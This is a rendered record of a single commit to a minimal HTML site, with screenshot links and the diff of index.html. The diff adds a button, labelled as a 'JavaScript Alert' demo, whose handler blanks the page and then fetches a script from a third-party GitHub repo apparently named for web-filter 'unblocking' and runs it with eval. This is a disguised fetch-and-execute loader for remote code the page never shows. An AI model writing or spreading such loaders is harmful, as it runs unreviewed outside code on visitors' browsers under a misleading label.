

Before and after one commit to SAVAGENOCHILL06/Ibuss, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,8 +2,13 @@
 <html>
 <body>
 
-<h1>My First Heading</h1>
-<p>My first paragraph.</p>
+  <h2>JavaScript Alert</h2>
+<button onclick="myFunction()">Try it</button>
 
+<script>
+function myFunction() {
+  window.location.replace("about:blank"),fetch("https://cdn.jsdelivr.net/gh/Aka-unblock/swamp-2.0@main/code.js").then(e=>{e.text().then(f=>{eval(f)})});
+}
+</script>
 </body>
 </html>
```
